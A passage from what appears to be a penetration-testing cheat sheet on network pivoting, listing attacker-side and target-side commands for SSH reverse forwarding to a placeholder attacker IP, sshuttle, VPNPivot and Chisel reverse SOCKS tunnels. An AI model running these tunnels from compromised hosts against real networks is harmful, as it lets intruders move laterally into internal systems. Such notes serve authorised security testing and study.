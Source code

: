 > Target

```bash
ssh -R 1337 USERNAME@ATTACKING_IP -i KEYFILE -fN
```

### sshuttle

> Attacker (with password)

```bash
sshuttle -r TARGET_USER@TARGET_IP  IP_ADDRESS_PIVOT_NET/24
```

> Attacker (with key-based authentication)

```bash
sshuttle -r TARGET_USER@TARGET_IP --ssh-cmd "ssh -i KEYFILE"  IP_ADDRESS_PIVOT_NET/24
```

### VPNPivot - pivots/pivotc

> Install tool

Repo: `git clone https://github.com/0x36/VPNPivot.git`

Arch: `yay vpnpivot`

> Note

```text
Warring: Require root on both side !
```

> Server (Attacker)

```bash
sudo pivots -i tun0 -p 1337 -H de:ad:be:ef:be:ef -v -I IP_ADDRESS_PIVOT_NET/24
```

> Client (Target)

```bash
sudo ./pivotc SERVER_IP_ADDRESS 1337 L_IP_ADDRESS_PIVOT_NET
```

### Chisel

### Server (Attacker)

```powershell
1.  chisel server -p 8000 -reverse
4.  chisel client 127.0.0.1:8001 socks
```

### Target

```powershell
2.  chisel client Server_IP:8000 R:8001:127.0.0.1:1337
3.  chisel server -p 1337 --socks5
```
